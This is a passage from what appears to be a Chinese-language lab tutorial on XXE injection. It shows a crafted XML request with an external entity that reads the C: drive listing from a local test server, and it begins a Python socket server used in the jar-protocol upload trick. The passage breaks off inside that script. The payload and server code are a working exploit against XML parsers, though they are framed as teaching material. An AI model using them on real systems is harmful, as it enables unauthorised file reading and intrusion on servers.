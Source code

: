 ```xml
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.43.231:8080
Referer: http://192.168.43.231:8080/XXE/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE user[
<!ENTITY baz SYSTEM "file:///c:/">
]>
<user><username>admin&baz;</username><password>admin</password></user>
```
即可在回复包中得到c盘的文件目录<br />![截屏2021-06-21 下午11.51.53.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624290735854-36bbf5e6-1885-41f1-b8c1-42354e789e46.png#align=left&display=inline&height=1762&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-21%20%E4%B8%8B%E5%8D%8811.51.53.png&originHeight=1762&originWidth=2696&size=608846&status=done&style=none&width=2696)<br />若要查看子目录，只要更改目录即可。

---

通过jar协议上传文件（如下实验需要一台远程服务器，这里为kali）<br />**在kali主机内进行如下操作**<br />首先需要使用一个python脚本来开启服务，脚本如下：<br />
```python
import sys 
import time 
import threading 
import socketserver 
from urllib.parse import quote 
import http.client as httpc 

listen_host = '192.168.0.110' 
listen_port = 9999 
jar_file = sys.argv[1]

class JarRequestHandler(socketserver.BaseRequestHandler):  
    def handle(self):
        http_req = b''
        print('New connection:',self.client_address)
        while b'\r\n\r\n' not in http_req:
            try:
                http_req += self.request.recv(4096)
                print('Client req:\r\n',http_req.decode())
                jf = open(jar_file, 'rb')
                contents = jf.read()
                headers = ('''HTTP/1.0 200 OK\r\n'''
                '''Content-Type: application/java-archive\r\n\r\n''')
                self.request.sendall(headers.encode('ascii'))

                self.request.sendall(contents[:-1])
                time.sleep(30)
                print(30)
                self.request.sendall(contents[-1:])

            except Exception as e:
                print ("get error at:"+str(e))


if __name__ == '__main__':

    jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    print ('waiting for connection...' + jar_file) 
    server_thread = threading.Thread(target=jarserver.serve_forever) 
    server_thread.daemon = True 
```